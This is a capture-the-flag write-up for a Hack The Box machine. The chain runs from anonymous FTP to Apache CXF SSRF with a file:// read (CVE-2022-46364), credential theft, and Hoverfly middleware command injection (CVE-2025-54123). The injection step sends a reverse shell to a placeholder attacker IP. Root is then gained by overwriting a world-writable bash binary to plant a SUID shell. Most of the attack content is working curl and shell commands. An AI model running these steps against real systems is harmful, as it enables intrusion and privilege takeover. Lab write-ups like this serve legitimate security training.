









Enumeration

Full port scan surfaces a wide attack surface. The most immediately interesting result is FTP on port 21 with anonymous authentication enabled.
FTP — Anonymous login
Logging in anonymously to the FTP server reveals a JAR file. This is a classic developer oversight — build artifacts left on production infrastructure. JAR files are ZIP archives containing compiled Java bytecode and, crucially, configuration files, dependency manifests, and sometimes hardcoded values that weren't meant to ship.
shell
ftp devarea.htb
# Name: anonymous Password: (blank)
ls
get application.jar
byePort 80 — Static, no attack surface

Port 8888 — Hoverfly


JAR Analysis — CVE-2022-46364 Discovery
A JAR file is just a renamed ZIP. Extract it and inspect the contents — particularly META-INF/MANIFEST.MF, Spring/CXF configuration files, and any properties files. No credentials in this JAR, but the dependency manifest reveals something critical.
shell
unzip application.jar -d app/
grep -r "cxf\|CXF\|apache" app/ --include="*.xml" --include="*.properties" -l
CVE-2022-46364 — Apache CXF SSRF via WSDL import. Apache CXF before 3.5.5 and 4.x before 4.0.3 allows a remote attacker to trigger Server-Side Request Forgery through a crafted WSDL document. When CXF processes a WSDL with a malicious schemaLocation or import URL, it will make an outbound HTTP request to an attacker-controlled address. Since the request originates from the server itself, it can reach internal services and read local files — turning SSRF into LFI on the server's own filesystem.
file:// URIs — giving arbitrary file read as the service account.No public PoC existed that worked for this specific configuration, so I wrote one. It constructs a WSDL document with a malicious schemaLocation pointing to a file:// URI, sends it to the CXF endpoint found in the JAR, and decodes the base64-encoded response.
PoC: codeberg.org/cybermaksx/CVE-2022-46364-Proof-of-the-concept
SSRF → LFI → Credential Extraction

The CXF endpoint (discovered from the JAR's service configuration) accepts a WSDL document via POST. By embedding a file:// URI as the schema import location, the server reads the target file and includes its contents in the SOAP fault response, base64-encoded.
shell — confirm LFI
curl -s -X POST http://devarea.htb:8080/Service \
-H "Content-Type: text/xml" \
-d @payload.xml | grep -oP '(?<=<ns:return>)[^<]+' | base64 -dFinding Hoverfly credentials via LFI
With arbitrary file read confirmed, the next step is identifying what files would contain Hoverfly credentials. Reading the Hoverfly documentation reveals that when run as a systemd service, credentials are typically stored in the unit file or an adjacent configuration file. The systemd service file is at a predictable path.
shell — read hoverfly service file
# Target: /etc/systemd/system/hoverfly.service
# Contains: ExecStart with -username and -password flags
curl -s -X POST http://devarea.htb:8080/Service \
-H "Content-Type: text/xml" \
-d @lfi_hoverfly_service.xml | grep -oP '(?<=<ns:return>)[^<]+' | base64 -d
-username and -password flags hardcoded in the unit file. LFI → credential extraction complete.RCE via Hoverfly — CVE-2025-54123
Hoverfly's middleware API (/api/v2/hoverfly/middleware) allows setting a custom script that gets executed for every proxied request. This is the intended functionality — but with no input sanitization on the script content, it's command injection. The endpoint requires a valid Bearer token, obtained by authenticating with the credentials we just extracted.
Step 1 — Authenticate and get Bearer token
shell
TOKEN=$(curl -s -X POST http://devarea.htb:8888/api/token-auth \
-H "Content-Type: application/json" \
-d '{"username":"<user>","password":"<pass>"}' | jq -r '.token')Step 2 — Inject reverse shell via middleware endpoint
shell — CVE-2025-54123
curl -X PUT http://devarea.htb:8888/api/v2/hoverfly/middleware \
-H "Authorization: Bearer $TOKEN" \
-H "Content-Type: application/json" \
-d '{
"binary": "/bin/bash",
"script": "bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1"
}'

shell
cat user.txt
HTB{...}Privilege Escalation — Writable Bash Binary
This escalation path is subtle and easy to miss if you rely too heavily on automated tools. LinPEAS points in several directions — most of them dead ends. The real vector requires reading two findings together and understanding what they mean in combination.
Sudo enumeration
shell
sudo -l
User dev_ryan may run the following commands on devarea:
(root) NOPASSWD: /opt/syswatch/syswatch.sh
(root) NOPASSWD: !/opt/syswatch/syswatch.sh web-stop
(root) NOPASSWD: !/opt/syswatch/syswatch.sh web-restartdev_ryan can run syswatch.sh as root without a password — with two blacklisted arguments (web-stop and web-restart). Any other argument is permitted, including --version or no argument at all.
The key — /usr/bin/bash is world-writable
shell
ls -la /usr/bin/bash
-rwxrwxrwx 1 root root 1446024 Mar 31 2024 /usr/bin/bashThe bash binary at /usr/bin/bash has permissions 777 — any user can overwrite it. When syswatch.sh runs as root and calls /usr/bin/bash, it will execute whatever binary sits at that path. If we replace it with a payload before triggering the script, the payload runs as root.
/usr/bin/bash. We control that binary. The script becomes our delivery mechanism for arbitrary root code execution.
The wrinkle — "Text file busy"
You cannot overwrite a binary while it is the active shell interpreter. If you try cp payload /usr/bin/bash from within a bash session, the kernel returns ETXTBSY. The solution: drop into /bin/sh first — a different interpreter — then do the overwrite. From /bin/sh, bash is just a file on disk, not an active text segment.
Exploitation — step by step
cp /usr/bin/bash /tmp/bash.bak/usr/bin/bash. It reads the root flag, creates a SUID root shell binary, then restores the real bash so the system keeps working. The shebang points to /tmp/bash.bak — the real interpreter — so the payload itself is valid bash.
/usr/bin/bash fails because the kernel locks executing text segments. Spawning /bin/sh as a child process detaches us from bash as interpreter — now it's just a file.exec /bin/shdd to overwrite atomically, then immediately trigger the sudo script before anything else respawns bash./tmp/rootbash — a copy of the real bash binary with the SUID bit set. Executing it with -p gives a shell where euid=0 regardless of who runs it.shell — step 1+2: prepare payload (from bash)
cp /usr/bin/bash /tmp/bash.bak
cat << 'EOF' > /tmp/payload.sh
#!/tmp/bash.bak
cat /root/root.txt > /tmp/root.txt
chmod 777 /tmp/root.txt
cp /tmp/bash.bak /tmp/rootbash
chmod +s /tmp/rootbash
cp /tmp/bash.bak /usr/bin/bash
exec /tmp/bash.bak "$@"
EOF
chmod +x /tmp/payload.shshell — step 3: drop into /bin/sh
exec /bin/sh
# Now in /bin/sh — bash is just a file, not our interpretersh — step 4: kill bash, overwrite, trigger
kill -9 $(pgrep -x bash) 2>/dev/null; \
dd if=/tmp/payload.sh of=/usr/bin/bash; \
sudo /opt/syswatch/syswatch.sh --version; \
cat /tmp/root.txt
# dd output: 0+1 records in / 0+1 records out / 184 bytes copied
ee51****************************shell — step 5: persistent root shell
/tmp/rootbash -p
# -p flag: don't drop privileges despite RUID != EUID
id
uid=1001(dev_ryan) gid=1001(dev_ryan) euid=0(root) egid=0(root) groups=0(root),1001(dev_ryan)
cat /root/root.txt
ee51****************************Key Takeaways
file://, SSRF becomes arbitrary file read. The step from there to credential extraction is just knowing where to look./etc/passwd, home directories, config files in the app dir. Reading the Hoverfly docs revealed that credentials live in the systemd unit file. Know your targets.ls -la on binaries referenced in sudo rules should be a standard post-exploitation check.